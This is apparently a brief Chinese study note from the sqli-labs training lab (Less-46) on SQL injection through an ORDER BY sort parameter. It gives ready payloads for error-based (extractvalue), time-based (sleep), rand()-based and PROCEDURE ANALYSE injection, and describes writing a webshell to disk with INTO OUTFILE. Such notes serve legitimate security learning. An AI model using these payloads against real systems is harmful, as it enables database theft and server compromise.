

# 知识点：
order by 后注入相关姿势
# 思路：
## 布尔类型的注入
## 报错注入和延时注入
三种构造方式
### 1.直接添加注入语句
报错注入 [http://sql-labs/Less-46/?sort=(extractvalue(1,concat(0x7e,database())))](http://sql-labs/Less-46/?sort=(extractvalue(1,concat(0x7e,database()))))  延时注入 [http://sql-labs/Less-46/?sort=(if(true,sleep(1),1))](http://sql-labs/Less-46/?sort=(if(true,sleep(1),1))) 
### 2.利用rand()函数
rand(true) 和 rand(false)结果不同 也可以用rand(payload)  
###  3.利用and 
?sort=1 and (sql语句)

## procedure analyse 参数后注入
limit 后也可以用此方法 此方法适用于5.0.0< MySQL <5.6.6版本 /?sort=1%20%20procedure%20analyse(extractvalue(rand(),con  cat(0x3a,version())),1)

## 导入导出文件into outfile参数
into outfile 地址 lines terminated by 木马 lines terminated by 每行结束写入by后的数据  
